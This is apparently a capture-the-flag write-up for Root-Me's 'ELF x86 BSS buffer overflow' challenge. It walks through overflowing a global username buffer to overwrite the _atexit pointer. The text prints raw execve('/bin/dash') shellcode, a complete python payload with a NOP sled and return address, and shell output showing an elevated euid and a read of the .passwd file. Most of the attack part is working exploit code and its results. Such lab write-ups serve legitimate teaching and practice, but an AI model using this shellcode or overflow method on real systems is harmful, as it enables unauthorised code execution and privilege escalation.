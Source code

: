 # rootme : BSS buffer overflow

    https://www.root-me.org/en/Challenges/App-System/ELF-x86-BSS-buffer-overflow

Name of challenge is BSS overflow.  Except that the global variables are initialised and, as can be seen from radare2 output, are in the .data.  Same method works regardless.

    [0xb7fdf030]> iS
    idx=24 vaddr=0x0804a020 paddr=0x00001020 sz=548 vsz=548 perm=--rw- name=.data
    idx=25 vaddr=0x0804a244 paddr=0x00001244 sz=8 vsz=8 perm=--rw- name=.bss
    
    [0xb7fdf030]> f
    vaddr=0x0804a040 paddr=0x00001040 ord=058 fwd=NONE sz=512 bind=GLOBAL type=OBJECT name=username
    vaddr=0x0804a240 paddr=0x00001240 ord=053 fwd=NONE sz=4 bind=GLOBAL type=OBJECT name=_atexit


Overflow of buffer into the _atexit function pointer.

                     512bytes |
    <nop padding> + <shellcode> + <obj.username>


Method:
    
    * Get address of string
    * NULL terminate the string
    * Setup and make call to sys_execve
    * Setup and make call to sys_exit


Of interest:

    * 0x09 is the TAB character and will cut off the cmdline argument


    ./shellcode.py
    shellcode: 
    \xeb\x1d\x5b\x31\xd2\x89\xd9\x83\xc1\x04\x83\xc1\x05\x88\x11\x31\xc0\xb0\x0b\x31\xc9\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xde\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41
    bytes    : 46

    $(python -c 'print "\x90" * 466 + "\xeb\x1d\x5b\x31\xd2\x89\xd9\x83\xc1\x04\x83\xc1\x05\x88\x11\x31\xc0\xb0\x0b\x31\xc9\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xde\xff\xff\xff\x2f\x62\x69\x6e\x2f\x64\x61\x73\x68\x41" + "\x40\xa0\x04\x08"')

    $ id
    uid=1107(app-systeme-ch7) gid=1107(app-systeme-ch7) euid=1207(app-systeme-ch7-cracked) groups=1207(app-systeme-ch7-cracked),100(users),1107(app-systeme-ch7)
    $ cat .passwd
    ...
